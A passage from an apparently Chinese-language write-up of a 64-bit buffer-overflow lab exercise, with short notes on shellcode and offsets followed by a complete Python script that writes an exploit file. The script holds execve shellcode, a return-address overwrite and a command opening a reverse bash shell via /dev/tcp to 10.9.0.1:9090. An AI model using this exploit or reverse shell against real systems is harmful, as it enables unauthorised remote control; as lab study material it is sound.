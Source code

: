 代码解读：
1. 根据提示，64位中 shell code 和 Pointer size 都不一样了。
2. shell code 仍然可以从 `shellcode_64.py` 中获得，而为了解决 Pointer values 的开头为0的问题，这里采用`little endian` 来使得 0 在高位，来避免 strcpy 的终止。
3. 这里我们将 shell code 放在 buffer 的起始位置，然后让 ret 指向该位置，offset = ebp - start(buffer) + 8 。

## task 5 L4 Smaller buffer size

成功截图：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102141033.png)

代码如下：
```py
#!/usr/bin/python3
import sys

shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   #"/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0x100               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x7fffffffde40+1904     # Change this number 
offset = 104              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
